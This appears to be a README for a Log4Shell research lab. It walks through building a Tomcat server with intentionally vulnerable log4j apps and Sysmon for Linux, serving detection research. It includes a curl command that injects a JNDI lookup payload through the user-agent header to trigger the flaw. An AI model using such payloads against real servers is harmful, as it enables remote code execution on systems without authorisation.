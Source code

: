 # Victim Server

There are several lab environments being shared in the Infosec community that are helping security researchers to test and learn more about `Log4Shell`.
However, most of them use docker containers to not only deploy the vulnerable application, but also containerize the execution of code.
From a Linux perspective, this does not help while using tools such as "[Sysmon for Linux](https://github.com/Sysinternals/SysmonForLinux)" since it cannot be installed in containers yet.
I wanted to put together a research lab where I could replicate a basic real scenario with a vulnerable Web application and Sysmon for Linux running.

## Setup Resources

* [Tomcat v8.5.3](https://tomcat.apache.org/)
* Java Libraries:
    * [javax.servlet-api v4.0.1](https://mvnrepository.com/artifact/javax.servlet/javax.servlet-api/4.0.1)
    * log4j-core ([2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.0), [2.15](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.15.0), [2.16](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.16.0))
    * log4j-api ([2.14](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.14.0), [2.15](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.15.0), [2.16](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api/2.16.0))
* [Sysmon for Linux](https://github.com/Sysinternals/SysmonForLinux)

## Tomcat Server Setup (Linux)

SSH to your Linux VM and git clone this projet:

```bash
sudo su

git clone https://github.com/Cyb3rWard0g/log4jshell-lab
```
run the bash script `Install-Tomcat.sh` to install and set up a [Tomcat](https://tomcat.apache.org/) server:

```Bash
cd log4jshell-lab/victim/tomcat

sh Install-Tomcat.sh
```

Check if the `Tomcat` service is running properly.

```
service tomcat status
```

## Prepare Vulnerable Applications

### Install Docker

We are going to use a Docker image to compile our vulnerable applications. You can use this script to install the latest Docker app in your Linux VM.

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Docker.sh
chmod +x Install-Docker.sh

./Install-Docker.sh
```

### Compile Applications

We need to add vulnerable applications to our Tomcat server. This project comes with a few vulnerable java applications.
* [2.14.0](vuln-apps/2.14.0)
* [2.15.0](vuln-apps/2.15.0)
* [2.16.0](vuln-apps/2.16.0)

We need to compile our applications and create `.war` files to host the vulnerable aplications in our Tomcat server under `/opt/tomcat/webapps`.
The bash script `Compile-Apps.sh` compiles applications and copies `.war` files to `/opt/tomcat/webapps`:

```bash
cd log4jshell-lab/victim/vuln-apps/
chmod +x Compile-Apps.sh

sh Compile-Apps.sh
```

### Restart Tomcat Service

```Bash
service tomcat stop
service tomcat start
```

## Access Vulnerable Applications

Each application (`2.14.0`, `2.15.0`, `2.16.0`) has two modes:
* Browser - Login Form: `127.0.0.1:8080/Log4j-2.1*.0-SNAPSHOT/`
* API - GET Request: `127.0.0.1:8080/Log4j-2.1*.0-SNAPSHOT/api`

### Browser Mode
* If your Linux VM has a GUI, you can simply browse to `127.0.0.1:8080/Log4j-2.1*.0-SNAPSHOT/`.
* If your Linux VM does not have a GUI and you can only use the terminal, you can SSH tunnel your access to your vulnerable applications. Simply run the following commands in a new terminal.

```bash
ssh -L 8080:127.0.0.1:8080 wardog@[Public-IP-Linux-VM]
```

* You must use the `email` field to pass a `JNDI lookup` string to trigger the vulnerabilities.

### API Mode
* You can also SSH to your Tomcat server and interact with the application's basic API.
* You can use `curl` to perform a `GET` request:
* You must pass the `JNDI lookup` string via the `user-agent` header of the `GET` request:

```bash
curl -X GET -H 'user-agent: ${jndi:ldap://192.168.2.6:1389/o=tomcat}' 127.0.0.1:8080/Log4j-2.*.0-SNAPSHOT/api
```

## Install Sysmon for Linux

If you want to generate some endpoint data, download the following bash script to automate the installation and configuration of [Sysmon for Linux](https://github.com/Sysinternals/SysmonForLinux):

```bash
wget https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/scripts/bash/Install-Sysmon-For-Linux.sh
chmod +x Install-Sysmon-For-Linux.sh

sh Install-Sysmon-For-Linux.sh --config https://raw.githubusercontent.com/OTRF/Blacksmith/master/resources/configs/sysmon/linux/sysmon.xml
```

## Exploiting Vulnerabilities

* Set up [Attacker server - Rogue JNDI](../attacker/README.md)
* Depending on which CVE you want to test, use the following research notes:
    * [CVE-2021-44228 Simulation](../research-notes/2021-12-11_01-CVE-2021-44228-simulation.md)
    * [CVE-2021-45046 Simulation](../research-notes/2022-01-03_01-CVE-2021-45046-simulation.md)

## Reference
* https://linuxize.com/post/how-to-install-tomcat-8-5-on-ubuntu-18-04/
* https://www.digitalocean.com/community/tutorials/install-tomcat-9-ubuntu-1804
* https://github.com/Sysinternals/SysmonForLinux